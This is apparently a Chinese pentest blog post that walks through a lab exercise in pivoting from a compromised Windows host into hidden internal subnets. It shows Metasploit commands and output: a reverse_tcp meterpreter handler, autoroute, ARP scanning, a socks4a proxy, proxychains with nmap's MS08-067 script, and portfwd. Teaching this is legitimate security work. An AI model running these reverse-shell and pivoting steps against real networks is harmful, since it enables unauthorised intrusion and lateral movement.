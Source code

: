 ```yaml
---
layout:     post
title:      多重转发渗透隐藏内网
date:       2017-02-23
summary:    多重转发渗透隐藏内网
categories: web
tags:
 - pivoting
 - pentest
 - msf
 - ssh
---
```


### About

```
内网机器如下:
```
<img src="https://pentest.blog/wp-content/uploads/final.png">
```
说明:
1)Attacker为攻击者,有一个网卡,网段为172.16.0.0,Attacker系统为kali系统
2)RD为第一个已经渗透的目标,有两块网卡,对应172.16.0.0和7.7.7.0两个网段
3)JC有两块网卡,对应7.7.7.0和8.8.8.0两个网段,JC有ms08-067和efs bof两个漏洞,可getshell
4)SK有一块网卡,对应8.8.8.0网段,SK有vsftpd的漏洞,可getshell
5)起初Attacker只拿到RD的msf的shell,对于目标内网情况一无所知,也不知道存在7.7.7.0和8.8.8.0这两个隐藏的网段
6)目标是准备通过RD来渗透内网中7.7.7.0和8.8.8.0两个隐藏的网段
```

### Step1

Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.0.20 
LHOST => 172.16.0.20
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -> 172.16.0.11:49162)
meterpreter > ifconfig
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500
IPv4 Address : 172.16.0.11
IPv4 Netmask : 255.255.255.0
Interface 19
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500
IPv4 Address : 7.7.7.11
IPv4 Netmask : 255.255.255.0
```

### Step2

发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由,操作如下:
```
meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 2
meterpreter >
```
然后开始扫描7.7.7.0网段,操作如下:
```
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter >
```
arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来扫
描,因为前面添加了路由],于是用Attacker本机的nmap来扫[可以更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上开
sockets4代理,然后用proxychains设置nmap的代理为RD在Attacker的1080端口开启的代理,操作如下:
```
meterpreter > background 
[*] Backgrounding session 2...
msf > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > set srvhost 172.16.0.20
srvhost => 172.16.0.20
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) > netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) >
```
proxychains设置/etc/proxychains.conf如下:
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4  127.0.0.1 9050
socks4  172.16.0.20 1080
```
nmap扫描如下:
```
root@kali:~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
Nmap scan report for 7.7.7.20
Host is up (0.17s latency).
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          Bitvise WinSSHD 7.16 (FlowSsh 7.15; protocol 2.0)
80/tcp   closed   http         Easy File Sharing Web Server httpd 6.9
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs: CVE:CVE-2008-4250
|          The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
|          Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|          code via a crafted RPC request that triggers the overflow during path canonicalization.
| 
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
root@kali:~#
```
现在发现了7.7.7.20(JC)这台机器端口开放比较多,尝试找出JC的漏洞,操作如下:
首先看看JC的80端口运行了什么cms,但是Attacker的浏览器直接访问http://172.16.0.20会无法访问,因为Attacker的网段与JC
不在同一网段,此处有个要注意的内容:
<font color="red">Attention:</font>
<font color="green">
可以选择使用proxychains设置Attacker的浏览器的代理为RD在Attacker的1080端口上绑定[开启]的socks4代理入口[认为msf中的
auxiliary/server/socks4a模块类似于ssh反向代理],也可通过在RD的meterpreter会话中运行portfwd模块命令,portfwd命令如下:
</font>
```
meterpreter > portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
[*] Local TCP relay created: 172.16.0.20:2323 <-> 7.7.7.20:80
meterpreter >

meterpreter > portfwd list
Active Port Forwards
====================
   Index  Local             Remote       Direction
   -----  -----             ------       ---------
   1      172.16.0.20:2323  7.7.7.20:80  Forward
1 total active port forwards.
meterpreter >
```
通过访问Attacker的2323端口访问JC的80端口,结果如下:
<img src="https://pentest.blog/wp-content/uploads/5.png">

<p color="green">
这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合命
令,ssh正向反向代理可参考这里的理解 <a href="http://3xp10it.cc/web/2017/02/24/ssh%E6%AD%A3%E5%90%91%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86%E7%90%86%E8%A7%A3/">ssh正向反向代理理解</a>

笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事
<img src="https://raw.githubusercontent.com/3xp10it/pic/master/dot/portfwd.png">

1.RD访问JC的80端口,这里相当于半个ssh正向代理
2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理
3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323

portfwd的用法如下:
</p>
```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter >
```
<font color="green">
其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之
间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过
meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口)

这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会
话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段
机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为
route add只能在meterpreter的会话中起作用,只有meterpreter会话下可用的模块可以直接访问7.7.7.x网段
</font>
